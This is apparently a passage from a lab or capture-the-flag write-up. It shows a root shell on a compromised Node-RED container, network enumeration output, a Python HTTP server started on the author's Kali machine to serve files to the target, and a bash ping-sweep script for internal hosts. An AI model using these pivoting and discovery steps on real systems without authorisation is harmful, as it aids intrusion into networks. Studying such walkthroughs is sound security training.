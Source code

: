 ```bash
root@nodered:/node-red# pwd
pwd
/node-red

root@nodered:/node-red# hostname 
hostname 
nodered

root@nodered:/node-red# hostname -I
hostname -I
172.19.0.3 172.18.0.2
```

```bash
root@nodered:/node-red# cat /proc/net/arp
cat /proc/net/arp
IP address       HW type     Flags       HW address            Mask     Device
172.18.0.1       0x1         0x2         02:42:1d:02:97:ab     *        eth0

root@nodered:/node-red# ip a
ip a
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
13: eth1@if14: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc noqueue state UP group default 
    link/ether 02:42:ac:13:00:03 brd ff:ff:ff:ff:ff:ff
    inet 172.19.0.3/16 brd 172.19.255.255 scope global eth1
       valid_lft forever preferred_lft forever
15: eth0@if16: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc noqueue state UP group default 
    link/ether 02:42:ac:12:00:02 brd ff:ff:ff:ff:ff:ff
    inet 172.18.0.2/16 brd 172.18.255.255 scope global eth0
       valid_lft forever preferred_lft forever
```

After trying a few options to transfer files to the current target, I found out that I good approach would be use an oneliner Perl to accomplish it.

I started a webserver on my Kali

```bash
$ python3 -m http.server 8181
Serving HTTP on 0.0.0.0 port 8181 (http://0.0.0.0:8181/) ...
```

And moved to the target, a bash script to enumerate hosts.

```bash
#!/bin/bash

if [ -z "$1" ]; then
  echo -e "Provide the first 3 octets of the network to scan\nusage: $0 192.168.56"
else
  network="$1"
  echo -e "\n--- SCAN ON HOST $network.(1..255) ---"
  for host in {1..255}; do
  ( 
    ping -c 1 -w 1 $network.$host >/dev/null 2>&1 && echo -e "\t[+] Active Host $network.$host" 
  ) &
  done
  wait
  echo "--- Finished scan ---"
fi
```
